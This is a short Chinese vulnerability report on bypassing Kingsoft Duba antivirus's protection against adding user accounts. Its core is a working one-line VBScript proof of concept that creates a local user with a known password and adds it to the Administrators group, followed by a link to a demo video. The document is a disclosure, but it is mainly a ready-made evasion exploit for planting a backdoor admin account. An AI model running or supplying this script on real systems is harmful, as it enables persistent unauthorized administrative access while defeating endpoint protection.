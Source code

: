 # 金山毒霸添加用拦截功能绕过

# 相关厂商

金山毒霸

# 漏洞类型

拦截绕过

# 自评危害等级

高危

# 详细介绍：

金山毒霸添加用拦截功能绕过

POC如下：

```bash
set wsnetwork=CreateObject("WSCRIPT.NETWORK"):os="WinNT://"&wsnetwork.ComputerName:Set ob=GetObject(os):Set oe=GetObject(os&"/Administrators,group"):Set od=ob.Create("user","test"):od.SetPassword "password":od.SetInfo:Set of=GetObject(os&"/test",user):oe.add os&"/test"

```

![](images/15897830581174.png)


测试视频演示下载地址：https://pan.baidu.com/s/1YsRrLVeALZH0vudbCn6WPQ 0sec

链接如挂，请群内反馈,谢谢


